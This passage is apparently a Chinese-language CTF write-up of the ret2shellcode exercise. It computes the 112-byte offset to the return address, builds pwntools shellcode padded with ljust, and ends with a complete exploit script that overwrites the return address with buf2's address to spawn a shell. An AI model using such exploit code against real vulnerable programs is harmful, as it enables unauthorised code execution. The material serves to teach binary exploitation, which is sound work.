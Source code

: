 可以看到输入字符串到ret地址距离为0xcc - 0x5c = 0x7c = 112个字节，前100个字节会被strncpy复制到buf2中，我们就利用这100个字节写入shellcode

生成shellcode，使用pwntools中的shellcraft模块生成汇编代码，再使用asm函数汇编生成机器码

![image-20230318142100150](image/image-20230318142100150.png)

计算一下机器码的长度

![image-20230318142252722](image/image-20230318142252722.png)

因此我们构造的payload应该为：44字节机器码 + 112-44个字节垃圾数据 + bss段buf2的地址

可以直接使用python提供的ljust()函数补充垃圾数据，ljust函数左边不变，向右边补充垃圾数据到指定长度

`asm(shellcraft.sh()).ljust(112, b'A')`，112为补充后的长度，b'A'是要补充的数据

<img src="image/image-20230318143611938.png" alt="image-20230318143611938" style="zoom:80%;" />

到此我们可以构造exp

```python
from pwn import *

io = process("./ret2shellcode")

buf2_addr = 0x0804A080
shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(112, b'A') + p32(buf2_addr)

io.sendline(payload)
io.interactive()
```
